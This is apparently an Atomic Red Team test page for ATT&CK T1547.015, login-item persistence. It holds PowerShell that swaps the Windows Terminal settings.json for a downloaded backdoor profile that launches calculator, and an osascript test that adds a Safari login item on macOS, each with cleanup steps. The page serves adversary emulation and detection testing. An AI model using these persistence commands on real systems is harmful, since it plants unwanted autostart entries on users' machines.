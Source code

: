 # T1547.015 - Boot or Logon Autostart Execution: Login Items

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/015)

<blockquote>Adversaries may add login items to execute upon user login to gain persistence or escalate privileges. Login items are applications, documents, folders, or server connections that are automatically launched when a user logs in.(Citation: Open Login Items Apple) Login items can be added via a shared file list or Service Management Framework.(Citation: Adding Login Items) Shared file list login items can be set using scripting languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002), whereas the Service Management Framework uses the API call <code>SMLoginItemSetEnabled</code>.

Login items installed using the Service Management Framework leverage <code>launchd</code>, are not visible in the System Preferences, and can only be removed by the application that created them.(Citation: Adding Login Items)(Citation: SMLoginItemSetEnabled Schroeder 2013) Login items created using a shared file list are visible in System Preferences, can hide the application when it launches, and are executed through LaunchServices, not launchd, to open applications, documents, or URLs without using Finder.(Citation: Launch Services Apple Developer) Users and applications use login items to configure their user environment to launch commonly used services or applications, such as email, chat, and music applications.

Adversaries can utilize [AppleScript](https://attack.mitre.org/techniques/T1059/002) and [Native API](https://attack.mitre.org/techniques/T1106) calls to create a login item to spawn malicious executables.(Citation: ELC Running at startup) Prior to version 10.5 on macOS, adversaries can add login items by using [AppleScript](https://attack.mitre.org/techniques/T1059/002) to send an Apple events to the “System Events” process, which has an AppleScript dictionary for manipulating login items.(Citation: Login Items AE) Adversaries can use a command such as <code>tell application “System Events” to make login item at end with properties /path/to/executable</code>.(Citation: Startup Items Eclectic)(Citation: hexed osx.dok analysis 2019)(Citation: Add List Remove Login Items Apple Script) This command adds the path of the malicious executable to the login item file list located in <code>~/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm</code>.(Citation: Startup Items Eclectic) Adversaries can also use login items to launch executables that can be used to control the victim system remotely or as a means to gain privilege escalation by prompting for user credentials.(Citation: objsee mac malware 2017)(Citation: CheckPoint Dok)(Citation: objsee netwire backdoor 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence by modifying Windows Terminal profile](#atomic-test-1---persistence-by-modifying-windows-terminal-profile)

- [Atomic Test #2 - Add macOS LoginItem using Applescript](#atomic-test-2---add-macos-loginitem-using-applescript)

<br/>

## Atomic Test #1 - Persistence by modifying Windows Terminal profile

Modify Windows Terminal settings.json file to gain persistence. [Twitter Post](https://twitter.com/nas_bench/status/1550836225652686848)

**Supported Platforms:** Windows

**auto_generated_guid:** ec5d76ef-82fe-48da-b931-bdb25a62bc65

#### Inputs:

| Name              | Description                                                                                               | Type   | Default Value                                                                                                     |
| ----------------- | --------------------------------------------------------------------------------------------------------- | ------ | ----------------------------------------------------------------------------------------------------------------- |
| calculator        | Test program used to imitate a maliciously called program.                                                | string | calculator.exe                                                                                                    |
| settings_json_def | Default file for Windows Terminal to replace the default profile with a backdoor to call another program. | path   | ~&#92;AppData&#92;Local&#92;Packages&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;LocalState&#92;settings.json |
| settings_json_tmp | Temp file for Windows Terminal.                                                                           | path   | ~&#92;AppData&#92;Local&#92;Temp&#92;settings.json                                                                |
| wt_exe            | Windows Terminal executable.                                                                              | path   | ~&#92;AppData&#92;Local&#92;Microsoft&#92;WindowsApps&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;wt.exe      |

#### Attack Commands: Run with `powershell`!

```powershell
mv #{settings_json_def} #{settings_json_tmp}
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.015/src/settings.json?raw=true" -OutFile "#{settings_json_def}"
wt.exe
```

#### Cleanup Commands:

```powershell
mv -Force #{settings_json_tmp} #{settings_json_def}
taskkill /F /IM "#{calculator}" > $null
```

#### Dependencies: Run with `powershell`!

##### Description: Windows Terminal must be installed

##### Check Prereq Commands:

```powershell
if (Test-Path #{wt_exe}) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
$(rm ~\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\StoreEdgeFD\installed.db -ErrorAction Ignore; Write-Output ""; $?) -and $(winget install --id=Microsoft.WindowsTerminal)
```

<br/>
<br/>

## Atomic Test #2 - Add macOS LoginItem using Applescript

Runs osascript on a file to create new LoginItem for current user.
NOTE: Will popup dialog prompting user to Allow or Deny Terminal.app to control "System Events"
Therefore, it can't be automated until the TCC is granted.
The login item launches Safari.app when user logs in, but there is a cleanup script to remove it as well.
In addition to the `osascript` Process Events, file modification events to
`/Users/*/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm` should be seen.

**Supported Platforms:** macOS

**auto_generated_guid:** 716e756a-607b-41f3-8204-b214baf37c1d

#### Inputs:

| Name           | Description                                            | Type   | Default Value                                           |
| -------------- | ------------------------------------------------------ | ------ | ------------------------------------------------------- |
| scriptfile     | path to Applescript source to add Safari LoginItem.    | string | PathToAtomicsFolder/T1547.015/src/add_login_item.osa    |
| cleanup_script | path to Applescript source to delete Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/remove_login_item.osa |

#### Attack Commands: Run with `bash`!

```bash
osascript #{scriptfile}
```

#### Cleanup Commands:

```bash
osascript #{cleanup_script}
```

<br/>
